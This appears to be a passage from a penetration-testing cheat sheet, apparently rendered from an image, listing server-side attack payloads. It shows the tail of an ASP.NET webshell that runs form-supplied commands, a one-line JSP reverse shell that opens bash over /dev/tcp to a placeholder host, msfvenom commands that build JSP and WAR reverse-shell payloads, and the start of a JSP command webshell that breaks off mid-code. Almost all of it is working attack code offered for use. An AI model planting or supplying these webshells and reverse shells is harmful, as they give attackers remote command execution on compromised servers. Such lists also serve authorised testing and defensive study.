 ```aspx
    StreamReader stmrdr = p.StandardOutput;
    string s = stmrdr.ReadToEnd();
    stmrdr.Close();
    return s;
  }
  void cmdExe_Click(object sender, System.EventArgs e) {
    Response.Write("<pre>");
    Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
    Response.Write("</pre>");
  }
</script>
<HTML>
<HEAD>
  <title>awen asp.net webshell</title>
</HEAD>
<body>
  <form id="cmd" method="post" runat="server">
    <asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
    <asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
    <asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
  </form>
</body>
</HTML>
```

#### Java
##### Reverse Shell
JSP File:
```jsp
<%=Process p=new ProcessBuilder("/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'").redirectErrorStream(true).start();Socket s=new Socket("'<host>'", <port>);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();%>
```
From msfvenom:
```sh
msfvenom -p java/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f jsp -o rv.jsp
```
From WAR file:
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<HOST> LPORT=<PORT> -f war > reverse.war
strings reverse.war | grep jsp  # Get the name of the file
```

##### Webshell
```jsp
<FORM METHOD=GET ACTION='cmdjsp.jsp'>
  <INPUT name='cmd' type=text>
  <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
  String cmd = request.getParameter("cmd");
  String output = "";
  if(cmd != null) {
    String s = null;
    try {
      String cmdFull = cmd;
      if(System.getProperty("os.name").toLowerCase().startsWith("windows")) {
```
